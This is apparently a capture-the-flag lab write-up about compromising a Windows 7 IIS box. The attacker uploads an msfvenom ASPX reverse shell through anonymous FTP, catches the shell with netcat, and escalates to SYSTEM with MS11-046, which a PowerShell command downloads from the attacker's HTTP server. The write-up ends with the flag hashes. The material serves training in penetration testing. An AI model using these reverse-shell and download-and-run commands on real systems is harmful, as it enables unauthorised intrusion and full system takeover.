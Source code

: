 ### [SCAN]
    21/tcp open  ftp     syn-ack Microsoft ftpd
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    | 03-18-17  01:06AM       <DIR>          aspnet_client
    | 03-17-17  04:37PM                  689 iisstart.htm
    |_03-17-17  04:37PM               184946 welcome.png
    | ftp-syst: 
    |_  SYST: Windows_NT
    80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
    | http-methods: 
    |   Supported Methods: OPTIONS TRACE GET HEAD POST
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/7.5
    |_http-title: IIS7
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
### [ANALYSIS]
    Some sort of ftp exploit, anonymous login is allowed. Assuming it will be a IIS/upload file exploit 
    we can hand craft with msfvenom or use metasploit module

### [EXPLOIT]
    msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.19 LPORT=2222 -o shell.aspx
    #connect to ftp
    put shell.aspx
    #go to website 10.10.10.5/shell.aspx(with nc listener up nc -nlvp 2222) and catch a shell
    #proof of exploit 
    c:\windows\system32\inetsrv>whoami
    whoami
    iis apppool\web (Service account aquired]

### [ANALYSIS]
    Attempt to get to C:\users\babis but access is denied, some sort of priv esc is going to be needed.
    systeminfo shows windows 7 machine, lets look at some exploits.
    Going to use secWiki's windows exploits for this one
    MS11-046

### [PRIV ESC]
    spear㉿Hades)-[~/windows-kernel-exploits/MS11-046]
    └─$ python -m SimpleHTTPServer     
    powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.19:8000/ms11-046.exe', 'c:\Users\Public\Downloads\ms11-046.exe')"
    C:\Users\Public\Downloads
    ms11-046.exe

    c:\Windows\System32>whoami
    whoami
    nt authority\system
   It Worked!!

**#Note if shell drops at any time go refresh the shell on website

### [HASH]
    9ecdd6a3aedf24b41562fea70f4cb3e8 C:\users\babis\desktop\user.txt.txt
    e621a0b5041708797c4fc4728bc72b4b C:\users\administrator\desktop\root.txt
